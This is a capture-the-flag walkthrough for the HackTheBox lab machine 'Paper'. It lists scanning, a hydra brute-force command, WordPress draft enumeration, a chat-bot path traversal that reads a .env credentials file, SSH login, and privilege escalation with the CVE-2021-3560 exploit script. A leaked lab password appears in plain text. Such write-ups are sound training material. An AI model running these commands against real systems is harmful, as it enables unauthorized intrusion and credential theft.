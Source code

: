 # HackTheBox Walkthrough - Paper

**Machine Name**: Paper  
**Target IP**: 10.129.136.31  
**Operating System**: CentOS  
**Difficulty**: Medium  
**Author**: User  
![webpage](img/webpage.png)

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Paper 10.129.136.31
```
![nmap](img/nmap.png)

**Results:**
```
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
```
![burpsuite](img/burpsuite.png)

- `Server: Apache/2.4.37`, `X-Backend-Server: office.paper`
- Added to `/etc/hosts`: `10.129.136.31 office.paper`

## 🌐 Web Enumeration

### WordPress Found
- URL: `http://office.paper/`
- Footer: `Powered by WordPress`
- Version from HTML source: `WordPress 5.2.3`
- Users discovered from posts: `michael`, `jan`, `nick`
- Only user `michael` remains
![paperwebpage](img/paperwebpage.png)
![wordpressV](img/wordpressV.png)

### 🔐 Brute Force Attempt (failed)
```bash
hydra -l michael -P /usr/share/wordlists/rockyou.txt http://office.paper/ http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid"
```

## 🔍 Vulnerability Discovery
![searchsploit](img/searchsploit.png)
![exploitmd](img/exploitmd.png)

### WordPress exploit (47690) - Post draft enumeration
```http
http://office.paper/?static=1&order=desc
```
![secretdraft](img/secretdraft.png)

Revealed a secret registration URL:
```
http://chat.office.paper/register/8qozr226AhkCHZdyY
```

Added to `/etc/hosts`: `10.129.136.31 chat.office.paper`

## 💬 Chat Application Enumeration

- Bot: `recyclops` has commands to list and read files
![chatbot](img/chatbot.png)

- Commands used
```
list ./
file sale/portfolio.txt
file ../hubot/.env
```
![recyclopsacc](img/recyclopsacc.png)

- Credentials found:
```env
ROCKETCHAT_USER=recyclops
ROCKETCHAT_PASSWORD=Queenofblad3s!23
```

## 🖥 Shell Access

### SSH to dwight
```bash
ssh dwight@10.129.136.31
Password: Queenofblad3s!23
```
![ssh](img/ssh.png)

### 🏁 User Flag
```bash
cat /home/dwight/user.txt
```
![userflag](img/userflag.png)

## ⬆️ Privilege Escalation

### CVE-2021-3560 Exploit
execute linpeas.sh
![CVE](img/CVE.png)

- [ExploitDB 50011](https://www.exploit-db.com/exploits/50011)
- Sent and executed script: `50011.sh`
```bash
chmod +x 50011.sh
./50011.sh
su - hacked (password: password)
sudo su
```
![root](img/root.png)

### 🏁 Root Flag
```bash
cat /root/root.txt
```
![rootflag](img/rootflag.png)

---

✅ **Rooted Paper successfully!**
